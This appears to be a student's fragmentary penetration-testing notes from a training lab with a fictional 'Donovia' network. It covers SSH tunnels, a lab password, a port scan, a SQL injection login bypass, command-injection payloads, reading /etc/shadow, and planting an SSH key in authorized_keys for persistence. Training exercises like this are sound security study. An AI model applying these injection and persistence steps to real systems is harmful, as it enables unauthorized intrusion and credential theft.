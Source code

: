 Post Exploitation

Look at crontabs / cronjobs

Lin : 13000 -> 100 : 80 (HTTP)
Lin : 13001-> 100 : 2222 (SSH)
Lin : 13002 -> .150.253 : 80 (HTTP)

Lin : 13003 -> .100 -> .150.253:514

To get into the thing lin.intranet.donvia
192.168.150.253 Donovian-Intranet -> comrade::StudentMidwayPassword
-> ssh -i /var/www/test/.ssh/id_rsa comrade@192.168.150.253 -p 3201
id_rsa is the private key and the ssh -i will use that for it. 

	important files for users
	/etc/passwd or /etc shadow

	important files for name resolution
	/etc/hosts

	important files for scheduled task related to specific users
	/etc/crontab
	sudo crontab -l [finds the scheduled tasks for that user]

	syslog and rsyslog
	cat /etc/rsyslog.d/50-default.conf -> find the default stuff

	cat /etc/security/access.conf to find the root stuff
	
	Antivirus
	cat /etc/rkhunter.conf 
	(start) (end)
	12301 12356
	
	sudo cat /root/brootkit/brootkit-master/br.conf 
	
	

192.168.56.1   badguy -> /etc/hosts

192.168.28.9
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5040/tcp  open  unknown
5985/tcp  open  wsman
5986/tcp  open  wsmans
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49672/tcp open  unknown
-

28.100
-80 (HTTP)
	/admin/
	/admin/login.php -> tom' OR 1='1 / tom' OR 1='1 [SQL Injection]
	/img/
-2222 (SSH)
-

192.168.150.253
-80 (HTTP)
-3201 (SSH)
-514 (shell)
	

1. 
ps; ls -l /etc/ -> hosts/ hostname/host.allow/host.deny

extranet.site.donovia

Extranet
-> /home/comrade/Dekstop/network/.mapkey.txt
-> ; find / -type f 2>/dev/null | grep .txt or inventory 

; echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGJu3uVk+wZOJUtkiXIONHT91zjK/fgrhvDpu7TBqAut1CLMi87MP8UgYnZLgJg8aCtfslHWBvyztd3VBVbtYc8WCzwMTEQJp6NcMN5V7VlR1CbOYoIUmG2/nu0aviSQ6zbwThA6uatdOTSVUGlfTJ2dzec7CLdB7PuN0a2ghWab9ke3m1JxNcTW+J+OD5tXFdZFl7ei3HV1Wc9T/NTZ/NeEStUqTUMkhm5afp54TVrLo1pikHQWcuCCZmMKXD3CHGXoCDdrxm98JPPb0/DL9Kfl1N2RxHyAfzEVc23v/D9QvgHAlrbM2a1YF4egDfdWaSXJDJtnKdkvklUbKXD+QV student@lin-ops" > /var/www/.ssh/authorized_keys

ssh -p 13001 <; whoami>@127.0.0.1
ssh -p 13001 www-data@127.0.0.1

; ls -la /home/comrade/.ssh/authorized_keys

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGJu3uVk+wZOJUtkiXIONHT91zjK/fgrhvDpu7TBqAut1CLMi87MP8UgYnZLgJg8aCtfslHWBvyztd3VBVbtYc8WCzwMTEQJp6NcMN5V7VlR1CbOYoIUmG2/nu0aviSQ6zbwThA6uatdOTSVUGlfTJ2dzec7CLdB7PuN0a2ghWab9ke3m1JxNcTW+J+OD5tXFdZFl7ei3HV1Wc9T/NTZ/NeEStUqTUMkhm5afp54TVrLo1pikHQWcuCCZmMKXD3CHGXoCDdrxm98JPPb0/DL9Kfl1N2RxHyAfzEVc23v/D9QvgHAlrbM2a1YF4egDfdWaSXJDJtnKdkvklUbKXD+QV comrade@lin-ops" > /home/comrade/.ssh/authorized_keys

; cat /home/comrade/.ssh/authorized_keys
